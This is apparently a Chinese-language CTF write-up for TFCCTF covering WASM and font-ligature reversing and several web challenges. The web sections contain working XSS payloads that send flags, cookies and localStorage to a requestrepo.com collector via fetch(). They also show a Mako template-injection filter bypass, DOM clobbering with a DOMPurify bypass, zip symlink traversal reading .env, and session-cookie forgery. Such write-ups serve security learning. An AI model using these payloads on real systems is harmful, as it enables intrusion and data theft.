在c代码中发现比较点，可以看到后面有wrong、correct

回到浏览器里源代码wasm搜1049113（此时已经转为了wat代码，还是可以读的）下断点

输入框输入6个a结果发现没有断下来，说明压根没有到比较点（下断点在encrypt等同样发现没有被调用）
1 2 3 4 5 6 7 8 9 10 11 12 13 local.get $var2 i32 .load offset=36 i32 .const 134 i32 .eqif local.get $var2 i32 .load offset=32 local.set $var4 i32 .const 0 local.set $var0 i32 .const 134 local.set $var1 i32 .const 1049113
从1049113往上找发现一处if比较，可以在local.get $var2下断点发现此时可以断下来，说明我们没有进到这个if

调试发现比较12和134，12正好是我们输入的6个a的16进制长度；134同样也是C3FAE3F2EFF4BFC6C70D91C1F1A8F2DAFAFEACE5FFF7C712D6EAF1EFBA818AFEEFEBA2D1F70FD6EBE3F9AECDCAE4B7EBEDDCFB129DE8BCD9F4DCE9B0D6F7C9D8F01DDF
因此可知输入应该是67位，直接怼a*67进去看比较点
点击下图里的内存可以查看值

调试到下图时候看到给了一个比较大的地址，查看内存发现正好是输入加密完的结果

结合前面obf_key长度14（cheia_osc_plug，check_flag开头有一组while循环14次，按模3结果处理了key），观察发现这个组16进制值出现了循环，因此直接猜测只做了简单的异或，我们要做的只需要提取出来异或的值即可
1 2 3 4 5 6 xor = list (bytes .fromhex("e1cfc4e8f9fdedc9f91bc3ffe0fd" )) xor = [i^97 for i in xor] print (xor)cmp = list (bytes .fromhex("C3FAE3F2EFF4BFC6C70D91C1F1A8F2DAFAFEACE5FFF7C712D6EAF1EFBA818AFEEFEBA2D1F70FD6EBE3F9AECDCAE4B7EBEDDCFB129DE8BCD9F4DCE9B0D6F7C9D8F01DDF" )) for i in range (len (cmp)): print (chr (cmp[i]^xor[i%len (xor)]), end="" )
得到flag
1 2 [128, 174, 165, 137, 152, 156, 140, 168, 152, 122, 162, 158, 129, 156] CTF{wh3n_w3_p4rt_w4ys__https://www.youtube.com/watch?v=EtrL9NkEphg}
法二：静态分析算法
ida分析w2c_wasm__oscn__bg_encrypt_0,核心加密函数w2c_wasm__oscn__bg_f3，分析这个函数得到以下加密逻辑
1 2 3 v106 = n1114112_1 ^ (n1114112_2 + 57 ); n0x80 = (unsigned __int8)(n1114112_1 ^ (n1114112_2 + 57 )); n0x80_1 = n0x80;
n1114112_1是明文，n1114112_2是密钥，那么逻辑是 enc[i]=msg[i]^(key[i]+57),
其余都是unicode解码的逻辑
继续分析w2c_wasm__oscn__bg_check_flag_0，检索到关键逻辑如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 n2_1 = v68 % 3 ; if ( n2_1 == 1 ){ if ( n0x10000 - 97 >= 0x1A ) n0x80 = n0x10000; else n0x80 = n0x10000 & 0x5F ; n0x10000 = n0x80; } else if ( n2_1 == 2 ) { if ( n0x10000 - 65 >= 0x1A ) n0x10000_1 = n0x10000; else n0x10000_1 = n0x10000 | 0x20 ; n0x10000 = n0x10000_1; } else } while ( n14 != 14 );
这部分是对密钥逻辑进行处理，密钥长度是14，然后
对于index%3=1：小写字母转为大写
对于index%3=2：大写字母转小写
其他情况则不做处理
向下分析得到比较逻辑
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 *(_DWORD *)(n5 + 8 ) = v19 + 80 ; if ( (unsigned int )i32_load (n5 + 16 , v52 + 36LL ) == 134 ) goto LABEL_138; goto LABEL_144; LABEL_144: i32_load8_u (n5 + 16 , 1070265 ); v97 = w2c_wasm__oscn__bg_f75 (n5, 8 , 1 ); if ( v97 ) { i64_store (n5 + 16 , v97, '...gnorW' ); goto LABEL_150; } w2c_wasm__oscn__bg_f66 (n5, 1u , 8u , 0x10006Cu ); wasm_rt_trap (5 ); LABEL_149: w2c_wasm__oscn__bg_f66 (n5, 1u , 8u , 0x10006Cu ); wasm_rt_trap (5 ); } else { i32_load8_u (n5 + 16 , 1070265 ); v97 = w2c_wasm__oscn__bg_f75 (n5, 8 , 1 ); if ( !v97 ) goto LABEL_149; i64_store (n5 + 16 , v97, '!tcerroC' ); }
可以看到比较了134长度的字符，结合rust推测是67字节，hex是134字节
然后从init找到密文为C3FAE3F2EFF4BFC6C70D91C1F1A8F2DAFAFEACE5FFF7C712D6EAF1EFBA818AFEEFEBA2D1F70FD6EBE3F9AECDCAE4B7EBEDDCFB129DE8BCD9F4DCE9B0D6F7C9D8F01DDF
经过加密的密钥为cheia_osc_plug
总结一下整体的加密逻辑，输入长度67字节 ，密钥长度14字节，先把密钥按照模3的加密做一个处理，再把处理后的密钥加57与输入循环异或，那么可以写出如下的解密脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 def T (ch, pos ): if pos % 3 == 1 : return ch elif pos % 3 == 2 : return ch.lower() else : return ch.upper() def transform_key_once (key ): transformed = [] for i, ch in enumerate (key): transformed.append(T(ch, i)) return "" .join(transformed) def decrypt_flag (enc_hex, key ): bs = bytes .fromhex(enc_hex) tkey = transform_key_once(key) out = [] for i, b in enumerate (bs): kch = tkey[i % len (tkey)] k = (ord (kch) + 57 ) & 0xFF out.append(chr (b ^ k)) return "" .join(out) enc = "C3FAE3F2EFF4BFC6C70D91C1F1A8F2DAFAFEACE5FFF7C712D6EAF1EFBA818AFEEFEBA2D1F70FD6EBE3F9AECDCAE4B7EBEDDCFB129DE8BCD9F4DCE9B0D6F7C9D8F01DDF" key = "gulp_cso_aiehc" flag = decrypt_flag(enc, key) print (flag)
FONT LEAGUES 验证端口告诉我们输入正确的flag会变成O，那么下载FontForge找到唯一的O

O162e219bca79a462f9cf5701124cf74c
然后写一个映射表的代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from fontTools.ttLib import TTFontfont_path = "Arial-custom.ttf" font = TTFont(font_path) cmap = font['cmap' ].getBestCmap() glyph_to_unicode = {} for uni, glyph_name in cmap.items(): if glyph_name not in glyph_to_unicode: glyph_to_unicode[glyph_name] = [] glyph_to_unicode[glyph_name].append(chr (uni)) with open ("mapping.txt" , "w" , encoding="utf-8" ) as f: f.write("Glyph Name -> Unicode Characters\n" ) for glyph, chars in glyph_to_unicode.items(): f.write(f"{glyph} -> {'' .join(chars)} \n" ) print ("映射表已写入 mapping.txt" )
展示部分：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 Glyph Name -> Unicode Characters space -> exclam -> ! quotedbl -> " numbersign -> # dollar -> $ percent -> % ampersand -> & quotesingle -> ' parenleft -> ( parenright -> ) asterisk -> * plus -> + comma -> , hyphen -> - period -> . slash -> / zero -> 0 one -> 1 two -> 2 three -> 3 four -> 4 five -> 5 six -> 6 seven -> 7 eight -> 8 nine -> 9 colon -> : semicolon -> ;; less -> < equal -> = greater -> > question -> ? at -> @ A -> A B -> B C -> C D -> D E -> E F -> F G -> G H -> H I -> I J -> J K -> K L -> L M -> M N -> N O -> O P -> P Q -> Q R -> R S -> S T -> T U -> U V -> V W -> W X -> X Y -> Y Z -> Z bracketleft -> [ backslash -> \ bracketright -> ] asciicircum -> ^ underscore -> _ grave -> ` a -> a b -> b c -> c d -> d e -> e f -> f g -> g h -> h i -> i j -> j k -> k l -> l m -> m n -> n o -> o p -> p q -> q r -> r s -> s t -> t u -> u v -> v w -> w x -> x y -> y z -> z braceleft -> { bar -> | braceright -> } asciitilde -> ~ exclamdown -> ¡ cent -> ¢ sterling -> £ currency -> ¤ yen -> ¥ brokenbar -> ¦ section -> §
需要通过逆向联接来重建输入字符串，追溯每个字形的联接规则。通过递归反向映射，最终找出原始输入的字形。
通过递归展开目标字形，生成符合条件的字符串。利用深度优先搜索和备忘录，可以优化扩展，尽量避免指数级增长。如果是哈希树，应该只有一条学习路径，我们可以先测试。
为了避免过多生成，我们定义了一个 expand(glyph) 函数，它返回可能的字符串列表。通过深度优先搜索并结合约束限制，我们可以实现更有效的扩展。在展开时，只探索每对唯一的映射。我还考虑检查目标根字形的逆向路径复杂度，看是否只会有一条解构路径。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 arget='O162e219bca79a462f9cf5701124cf74c' rev = {} count_rules=0 for lookup in lookupList.Lookup: if lookup.LookupType!=4 : continue for st in lookup.SubTable: if not hasattr (st,'ligatures' ): continue for start_glyph, lig_list in st.ligatures.items(): for lig in lig_list: if len (lig.Component)!=1 : pass a=start_glyph b=lig.Component[0 ] if lig.Component else None c=lig.LigGlyph rev.setdefault(c, []).append((a,b)) count_rules+=1 count_rules, len (rev[target]), rev[target][:10 ]
输出得到：
1 (2091, 1, [('O0dd4bbd1dc3031e7985b2c4b2caee3b0', 'Od37ba43eb880c76fd73cf4d8044d97ad')])
只有一个逆向配对，表明存在唯一的路径，最终能够将其映射到ASCII。接下来，我将实现递归扩展，直到达到那些直接映射到Unicode字符（可能是ASCII）的叶子节点。停止条件是当两子节点都不在逆向映射键中时。
然后通过递归扩展收集叶子结点
1 2 3 4 5 6 7 8 9 10 sys.setrecursionlimit(10000 ) def expand_to_leaves (g ): if g in rev: a,b = rev[g][0 ] return expand_to_leaves(a)+expand_to_leaves(b) else : return [g] leaves = expand_to_leaves(target) len (leaves), leaves[:10 ]
得到(64, [‘one’, ‘f’, ‘eight’, ‘nine’, ‘a’, ‘nine’, ‘five’, ‘seven’, ‘a’, ‘zero’])
再按照mapping.txt的规则进行转换，有
1 2 3 4 5 def leaf_to_char (name) : ch = glyph_to_char (name) return ch s=''.join(leaf_to_char(n) for n in leaves) s, [ (n, leaf_to_char(n)) for n in leaves[:20] ]
得到
1 ('1f89a957a0816e3bea3fa026cd9a47cf181fb2c0e0c9e9442a2c783b01c083d2' , [('one' , '1' ), ('f' , 'f' ), ('eight' , '8' ), ('nine' , '9' ), ('a' , 'a' ), ('nine' , '9' ), ('five' , '5' ), ('seven' , '7' ), ('a' , 'a' ), ('zero' , '0' ), ('eight' , '8' ), ('one' , '1' ), ('six' , '6' ), ('e' , 'e' ), ('three' , '3' ), ('b' , 'b' ), ('e' , 'e' ), ('a' , 'a' ), ('three' , '3' ), ('f' , 'f' )])
最后flag即为TFCCTF{1f89a957a0816e3bea3fa026cd9a47cf181fb2c0e0c9e9442a2c783b01c083d2}
询问gpt的思考过程：https://chatgpt.com/share/68b1b28f-6008-8000-8abd-c756c9e0b572
Web WEBLESS
获得reffer似乎可行可行的思路
1 <script>fetch ('https://kws1oh3y.requestrepo.com:8000/collect?ref=${document.referrer}</script>
但是题目禁止任何内联脚本
1 resp.headers ["Content-Security-Policy" ] = "script-src 'none'; style-src 'self'"
密码错误也能导致xss,且没有安全头
1 2 3 4 5 6 HTTP/1.1 401 UNAUTHORIZEDServer : Werkzeug/3.1.3 Python/3.12.11Date : Sat, 30 Aug 2025 00:54:41 GMTContent-Type : text/html; charset=utf-8Content-Length : 1682Connection : close
iframe 与父同域，iframe 似乎可获取父域dom?
1 2 3 4 5 6 7 <script > const parent = window .parent ;const iframe = parent.document .getElementById ('flag' );const iframeDoc = iframe.contentDocument ;const flag = iframeDoc.getElementById ('description' ).innerText ;fetch ('https://kws1oh3y.requestrepo.com/?flag=' +flag)</script >
1 2 3 4 5 6 7 8 9 10 11 <iframe id ="flag" src ="/post/0" style ="width:0;height:0;border:0;visibility:hidden" > </iframe > <img a ="wait" src =/ > <img a ="wait" src =/ > <img a ="wait" src =/ > <img a ="wait" src =/ > <img a ="wait" src =/ > <img a ="wait" src =/ > <img a ="wait" src =/ > <iframe credentialless src ="/login?username=%3Cscript%3E%0Aconst%20parent%20%3D%20window%2Eparent%3B%0Aconst%20iframe%20%3D%20parent%2Edocument%2EgetElementById%28%27flag%27%29%3B%0Aconst%20iframeDoc%20%3D%20iframe%2EcontentDocument%3B%0Aconst%20flag%20%3D%20iframeDoc%2EgetElementById%28%27description%27%29%2EinnerText%3B%0Afetch%28%27https%3A%2F%2Fkws1oh3y%2Erequestrepo%2Ecom%2F%3Fflag%3D%27%2Bflag%29%0A%3C%2Fscript%3E&password=admin" style ="width:0;height:0;border:0;visibility:hidden" > </iframe >
这在我的浏览器上成功了,但是为什么bot不行？
1 2 3 4 5 6 7 8 9 10 11 12 13 app-1 | 192.168.18.173 - - [30/Aug/2025 02:04:31] "POST /report HTTP/1.1" 202 - app-1 | 127.0.0.1 - - [30/Aug/2025 02:04:32] "GET /login?username=27ffe8f85d20e7bae3ad45680567f64671a94b1a4708d96546dfb63788b84c6e&password=fb1a60ff69b9d842b9bcba78b930baa0d8de1420b210453b527188125c405264 HTTP/1.1" 302 - app-1 | 127.0.0.1 - - [30/Aug/2025 02:04:32] "GET / HTTP/1.1" 200 - app-1 | 127.0.0.1 - - [30/Aug/2025 02:04:32] "GET /favicon.ico HTTP/1.1" 404 - app-1 | Login page fully loaded app-1 | Visiting: http://192.168.18.158:5000/post/12 app-1 | 172.18.0.1 - - [30/Aug/2025 02:04:32] "GET /post/12 HTTP/1.1" 302 - app-1 | 172.18.0.1 - - [30/Aug/2025 02:04:32] "GET /login HTTP/1.1" 200 - app-1 | 172.18.0.1 - - [30/Aug/2025 02:04:32] "GET /favicon.ico HTTP/1.1" 404 - app-1 | [BOT] Error: Message: app-1 | app-1 | Browser closed. app-1 | [BOT] Done
bot似乎没有加载iframe?
1 driver.get(f"http://127.0.0.1:5000/login?username={username}&password={password}")
尝试提交127.0.0.1
1 url=http%3a%2f%2f127.0.0.1%3a5000%2fpost%2f12
成功！
KISSFIXESS
存在模板注入
用户输入在模板编译前被替换到模板源码中：
1 2 3 4 5 6 7 8 9 def render_page (name_to_display=None ): """Renders the HTML page with the given name.""" templ = html_template.replace("NAME" , escape_html(name_to_display or "" )) template = Template(templ, lookup=lookup) return template.render(name_to_display=name_to_display, banned="&<>()" )
这里 html_template 是 Mako 模板源码字符串。将用户输入替换进 “NAME” 占位符发生在 Template(…) 编译之前。
Mako 会在编译阶段解析 ${…}（表达式）与以 % 开头的控制行（如 % if …:、% for …:）。
这些字符会在这之前被转义,意味着模板不会直接执行他们
1 2 3 def escape_html (text ): """转义HTML特殊字符，防止XSS等攻击""" return text.replace("&" , "&" ).replace("<" , "<" ).replace(">" , ">" ).replace("(" , "(" ).replace(")" , ")" )
黑名单如下
1 banned = ["s" , "l" , "(" , ")" , "self" , "_" , "." , "\"" , "\\" , "import" , "eval" , "exec" , "os" , ";" , "," , "|" ]
但是似乎转义后的字符能带来 & a m p ; l t g t # 4 0 1 , 这似乎有助于我们绕过waf
发现band被传进去了
尝试构造如下
1 ${'%c' %60 + '%c' % 115 +'cript' + banned[2 ] + 'fetch' + banned[3 ] + '`http' + '%c' %115 + '://drzgmowg' + '%c' %46 + 'reque' + '%c' %115 + 'trepo' + '%c' %46 + 'com/?a=' + '%c' % 36 + '%c' %123 + 'document' + '%c' %46 + 'cookie' + '%c' % 125 + '`' + banned[4 ] + '%c' %60 + '%c' % 47 + '%c' % 115 +'cript' + banned[2 ]}
DOM NOTIFY 可能是DOM破坏?
DOM clobbering | Web Security Academy
1 <a id=custom_elements><a id =custom_elements name =enabled > <a id =custom_elements name =endpoint href =//kws1oh3y.requestrepo.com >
很好,我们现在能向任意网站获得数据了,我们继续
1 [{"name" :"title-div" ,"observedAttribute" :"data-id" }]
如果我们监听这种全局属性性呢？data-*
我发现DOMPurify认为data-id与id都是被允许的,不会删除此属性!
1 ALLOWED_ATTR : ['id' , 'class' , 'name' , 'href' , 'title' ]
突变 XSS：解释、CVE 和挑战 |乔里安·沃尔特杰
因为特殊原因 DOMPurify 在有些情况无法清理is属性？
1 2 3 4 5 6 a=new DOMParser().parseFromString('<a is="to-delete">', "text/html"); a.body.firstChild.removeAttribute("is"); a.getRootNode().body.firstChild; >>> <a></a> a.getRootNode().body.firstChild.outerHTML; >>> '<a is="to-delete"></a>'
is成功成为了invalid-value
1 [ { "name" : "invalid-value" , "observedAttribute" : "data-class" } ]
1 <div data-class =some is= ></div>
成功了
1 <div is="invalid-value" data-class ="some" ></div>
1 2 3 4 <a id=custom_elements><a id =custom_elements name =enabled > <a id =custom_elements name =endpoint href =//kws1oh3y.requestrepo.com > <div data-class ="');fetch('https://kws1oh3y.requestrepo.com/?flag='+localStorage.getItem('flag'))<!--" is => </div >
SLIPPY 有 /upload 上传接口，且上传后的zip文件会被解压，并可以在 /files 下载解压后的文件
通过将符号链接加到zip文件中可以绕过路径限制读取任意文件
构造zip文件读取远程靶机的 server.js 和 .env
1 2 3 4 5 6 7 8 9 mkdir appmkdir app/uploadsmkdir app/uploads/1touch app/server.jstouch app/.envcd app/uploads/1ln -s ../../server.js ./serverln -s ../../.env ./envzip -y 1.zip ./server ./env
下载 server 和 env 两个文件，获取到 develop 用户的 sid 是 amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E ，以及 SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
用下面的脚本伪造 develop 的 cookie
1 2 3 4 5 6 7 8 const signature = require ('cookie-signature' );const secret = "3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b" ;const sid = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E" ;const cookieVal = 's:' + signature.sign (sid, secret);console .log ("connect.sid=" + cookieVal);
connect.sid=s%3AamwvsLiDgNHm2XXfoynBUNRA2iWoEH5E%2ER3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE
修改 cookie ，添加请求头 X-Forwarded-For: 127.0.0.1 ，访问 /debug/files?session_id=../../
得到 flag 在 /tlhedn6f 路径下
构造 zip ，加入 ../../../tlhedn6f/flag.txt 的符号链接
上传zip文件后下载 flag.txt